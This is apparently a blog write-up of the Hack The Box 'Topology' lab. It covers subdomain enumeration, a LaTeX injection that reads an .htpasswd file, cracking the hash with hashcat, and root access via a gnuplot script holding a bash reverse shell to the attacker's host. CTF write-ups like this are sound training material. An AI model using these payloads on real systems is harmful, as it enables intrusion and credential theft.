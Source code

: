 ```yaml
---
title: "Hack The Box - Topology [Easy]"
date: 2023-06-30T10:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


I've started with simple machine enumeration

```bash
$ nmap -sV 10.10.11.217
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Then I went to `topology.htb` to check out the website, noticed the possible users (according to the email that is formatted like `lklein@topology.htb`). I've enumerated possible users:

```
lklein
vdaisley
dabrahams
```

I went on to figure out what is located at http://latex.topology.htb/equation.php which was the only link on the website. There I found out some LaTeX to PNG convertor. I've figured out that there must be some trickery with this so I went my way to research the topic. 

I've found out the following:
- https://0day.work/hacking-with-latex/
- https://salmonsec.com/cheatsheets/exploitation/latex_injection

These two links, helped me to figure out that I had an LFI vulnerability at hand. Upon searching different files such as `/etc/passwd, /proc/self/cmdline, /proc/self/environ` and so on, I've figured out that I must be missing something. I began to explore what other subdomains (because there is `latex.topology.htb` I thought there would be more) were on the webserver using `ffuf`.

```bash
$ ffuf -w $commontxt -u http://topology.htb/ -H "Host: FUZZ.topology.htb" -r
```

Which yielded the following domains:

- `dev`
- `stats`

I've browsed through those and on the stats there were simple plots about the current usage of the system and that's it. But on the `dev` subdomain there was a Basic Auth in place which I then figured out that I can read the `.htpasswd` with the LFI vulnerability in the `latex.topology.htb` input form. 

I've tried a couple of times to read the file, but there were unsuccessful, and I went my way to figure out why and what's going on. 

I honestly didn't know how can I read the file and I turned out to some help, which I then understood that I can use the `LaTeX/Source Code Listings` which also can read a file with `\lstinputlisting{/var/www/dev/.htpasswd}`, however the website just resulted in no image (possible error) using just this command. 

Here comes this post to the rescue https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

Since the website is about math, we can use the `inline math delimiters` that are `$ and $` which can turn my payload from `\lstinputlisting{/var/www/dev/.htpasswd}` to `$\lstinputlisting{/var/www/dev/.htpasswd}$` which resulted into getting the basic auth hash.

```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0
```

Using `hashcat` we can extract the password

```
$ hashcat -m 1600 crack.txt /usr/share/wordlists/rockyou.txt
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0:goDoItOnYourOwn
```

With that, I tried the users that I've enumerated earlier and the user `vdaisley` worked out, so I went to log in with SSH and got the user flag.


# Root

The root was pretty easy, first we can see which directories are writable:

```
$ find / -type d -writable 2>/dev/null
...
/opt/gnuplot
...
```

This directory looked suspicious, I've fired up `pspy` to checkout what is going on and I got this:

![rwojak](/htb/htb-topology-pspyrun.png)

So we are finding `*.plt` files in this directory, and then we are executing `gnuplot` as root. Using this [article,](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/#command-execution) I've crafted a `test.plt` file with the contents of:

```bash
vdaisley@topology:/opt/gnuplot$ cat ~/test.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.16.xx/4444 0>&1'"
```

I've copied the file to the `/opt/gnuplot` directory and I've waited to get a remote connection which I got in about a minute. With that I rooted the machine.